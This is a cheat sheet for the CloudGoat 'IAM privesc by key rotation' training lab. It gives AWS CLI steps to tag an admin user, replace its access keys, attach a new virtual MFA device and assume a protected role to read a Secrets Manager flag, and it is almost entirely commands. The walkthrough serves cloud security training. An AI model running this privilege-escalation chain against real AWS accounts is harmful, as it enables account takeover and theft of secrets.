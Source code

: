 # IAM Privecs by Key Rotation Cheat Sheet

`aws configure --profile manager`

Enumerate the credentials

```bash
aws iam list-user-policies --user-name manager_iam_privesc_by_key_rotation_<cloudgoat_id> --profile manager
# SelfManageAccess
# TagResources

aws iam get-user-policy --user-name manager_iam_privesc_by_key_rotation_<cloudgoat_id> --policy-name SelfManageAccess --profile manager

aws iam get-user-policy --user-name manager_iam_privesc_by_key_rotation_<cloudgoat_id> --policy-name TagResources --profile manager
```

With the permissions we can tag and change access keys for users with the tag `developer=true`.
- Looking at the IAM users there is a developer and an admin user.
- The admin user has permissions to assume a role `cg_secretsmanager_iam_privesc_by_key_rotation_<cloudgoat_id>` which allows it to retrieve the secret flag.

```bash
aws iam tag-user --user-name admin_iam_privesc_by_key_rotation_<cloudgoat_id> --tags '{"Key":"developer","Value":"true"}' --profile manager

aws iam list-access-keys --user-name admin_iam_privesc_by_key_rotation_<cloudgoat_id> --profile manager

aws iam delete-access-key --user-name admin_iam_privesc_by_key_rotation_<cloudgoat_id> --access-key-id <ACCESS_KEY_ID> --profile manager

aws iam create-access-key --user-name admin_iam_privesc_by_key_rotation_<cloudgoat_id> --profile manager
# {
#     "AccessKey": {
#         "UserName": "admin_iam_privesc_by_key_rotation_<cloudgoat_id>",
#         "AccessKeyId": "AKIA....",
#         "Status": "Active",
#         "SecretAccessKey": "GQg+9Me8LmB+099t6....",
#         "CreateDate": "2023-09-04T19:20:02+00:00"
#     }
# }
```

With the "admin" users credentials we can assume the role it has access to...

```bash
aws configure --profile admin

aws sts assume-role --role-arn arn:aws:iam::0123456789:role/cg_secretsmanager_iam_privesc_by_key_rotation_<cloudgoat_id> --role-session-name cloudgoat_secret --profile admin
# Access Denied
```

...the role can only be assumed when using multi-factor authentication

Lets create a new virtual mfa device, back in the manager user shell/profile.

```bash
aws iam create-virtual-mfa-device --virtual-mfa-device-name cloudgoat_virtual_mfa --outfile QRCode.png --bootstrap-method QRCodePNG --profile manager
# "SerialNumber": "arn:aws:iam::0123456789:mfa/cloudgoat_virtual_mfa"
```

Scan the QR code in the file `QRCode.png`. For the following command put in two consecutive tokens. 

```bash
aws iam enable-mfa-device \
    --user-name admin_iam_privesc_by_key_rotation_<cloudgoat_id> \
    --serial-number arn:aws:iam::0123456789:mfa/cloudgoat_virtual_mfa \
    --authentication-code1 <MFA Code #1> \
    --authentication-code2 <MFA Code #2> \
    --profile manager
```

Now we can assume the role since were using mfa. Switch back to the shell/profile that has the admin users credentials.

```bash
aws sts assume-role --role-arn arn:aws:iam::0123456789:role/cg_secretsmanager_iam_privesc_by_key_rotation_<cloudgoat_id> --role-session-name cloudgoat_secret --profile admin --serial-number arn:aws:iam::0123456789:mfa/cloudgoat_virtual_mfa --token-code <TOKEN_CODE>
# {
#     "Credentials": {
#         "AccessKeyId": "ASIA...",
#         "SecretAccessKey": "Mm8ij9L8eV.....",
#         "SessionToken": "IQoJb3JpZ2luX2VjE..................",
#         "Expiration": "2023-09-04T20:36:44+00:00"
#     },
#     "AssumedRoleUser": {
#         "AssumedRoleId": "AROAZ6IIT5XU5WXMGTWEW:cloudgoat_secret",
#         "Arn": "arn:aws:sts::0123456789:assumed-role/cg_secretsmanager_iam_privesc_by_key_rotation_<cloudgoat_id>/cloudgoat_secret"
#     }
# }
```

Then Add the admin credentials to your AWS CLI credentials file at `~/.aws/credentials`) as shown below:

```
[admin]
aws_access_key_id = ASIA....
aws_secret_access_key = Mm8ij9L8eV....
aws_session_token = IQoJb3JpZ2luX2VjE..................
```

Then retrieve the secret and secret flag using admin.

```bash
aws secretsmanager list-secrets --profile admin

aws secretsmanager get-secret-value --secret-id cg_secret_iam_privesc_by_key_rotation_<cloudgoat_id> --profile admin | grep flag
# flag{...}
```
